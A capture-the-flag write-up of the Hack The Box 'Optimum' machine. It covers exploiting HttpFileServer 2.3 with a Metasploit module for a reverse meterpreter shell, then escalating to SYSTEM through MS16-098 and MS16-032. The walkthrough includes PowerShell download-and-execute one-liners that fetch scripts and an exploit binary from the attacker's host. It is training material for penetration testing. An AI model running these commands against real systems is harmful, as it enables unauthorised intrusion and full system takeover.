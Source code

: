 # Optimum

<figure><img src="../.gitbook/assets/Optimum.png" alt=""><figcaption></figcaption></figure>

## Overview

Optimum is an easy machine with focuses on CVE discovery and metasploit.

## Enumeration

### Nmap scan

I started with an nmap scan.

```
...
Discovered open port 80/tcp on 10.10.10.8
...
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

## Initial Foothold

### HTTP

The default webpage does have several links and possible attack vectors, but it also used a framework I've never seen before - HttpFileServer(HFS) 2.3. Running a quick searchsploit yields that there are several vulnerabilities.&#x20;

```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit hfs 2.3 
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                        | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                        | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)             | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                     | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution           | windows/webapps/34852.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

I'll open metasploit and search again so I can easily select it. I chose the second one mainly because it the first exploit didn't look very useful.

```
msf6 > search hfs 2.3                                                                                                                                                                                                                      
                                                                                                                                                                                                                                           
Matching Modules                                                                                                                                                                                                                           
================                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
   #  Name                                        Disclosure Date  Rank       Check  Description                                                                                                                                           
   -  ----                                        ---------------  ----       -----  -----------                                                                                                                                           
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390                                                                                             
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution                                                                                                       
                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/rejetto_hfs_exec                                                                                                                            
                                                                                                                                                                                                                                           
msf6 > use 1                                                                                                                                                                                                                               
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

I can then set LHOST and RHOST, and then run the command.

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.18
LHOST => 10.10.14.18
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] Using URL: http://10.10.14.18:8080/sBQfZ3YbDMbkX
[*] Server started.                                       
[*] Sending a malicious request to /
[*] Payload request received: /sBQfZ3YbDMbkX
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\KTDuAEdfJFsV.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.18:4444 -> 10.10.10.8:49162) at 2023-01-22 15:14:35 -0600
ls                                                        
[*] Server stopped.                                       

meterpreter > ls                                          
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-01-29 00:12:39 -0600  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 07:11:17 -0500  hfs.exe
100444/r--r--r--  34      fil   2023-01-28 23:58:43 -0600  user.txt

meterpreter > cat user.txt                                
REDACTED
```



## Privilege Escalation

To check Windows machines, I discovered the tool Sherlock([https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)) that checks a lot of CVE's against the target machine. I can git clone it and then set up a simple http server in python to start the transfer.

```
┌──(kali㉿kali)-[~]                                                                                                                                                                                                                        
└─$ git clone https://github.com/rasta-mouse/Sherlock.git                                                                                                                                                                                  
Cloning into 'Sherlock'...                                                                                                                                                                                                                 
remote: Enumerating objects: 75, done.                                                                                                                                                                                                     
remote: Total 75 (delta 0), reused 0 (delta 0), pack-reused 75                                                                                                                                                                             
Receiving objects: 100% (75/75), 33.97 KiB | 1023.00 KiB/s, done.                                                                                                                                                                          
Resolving deltas: 100% (39/39), done. 

┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I also added Find All-Vulns at the end of Sherlock.ps1 to check all of the scripts.&#x20;

In the Windows machine, we can then download and run this via Powershell with the following.

```
C:\Users\kostas\Desktop>powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/Sherlock.ps1'); Find-AllVulns"
```

The CVE MS16-098 ended up working, and with some help from [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) and another file transfer I am able to run the exploit exe file. There was another possible exploit, which was MS16-032, but it didn't end up working for some reason.

```
C:\Users\kostas\Desktop>Powershell.exe invoke-webrequest -Uri http://10.10.14.18/bfill.exe -OutFile bfill.exe
```

Getting us nt authority\system user and root flag.

### Alternative Metasploit Privilege Escalation

First, we need to background the existing session then mount metasploit's exploit suggester.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...                                                         
[*] 10.10.10.8 - 176 exploit checks are being tried...     
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.                       
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 41 / 41               
[*] 10.10.10.8 - Valid modules for session 1:              
============================                               

 #   Name                                                           Potentially Vulnerable?  Check Result             
 -   ----                                                           -----------------------  ------------             
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

Look! It's the old exploit. I used it this time and set LHOST and RHOST accordingly and ran.

```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.18
LHOST => 10.10.14.18
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.18:4444
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\mUFyEr.ps1...
[*] Compressing script contents...
[+] Compressed size: 3747
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]
...
meterpreter > shell
Process 2032 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

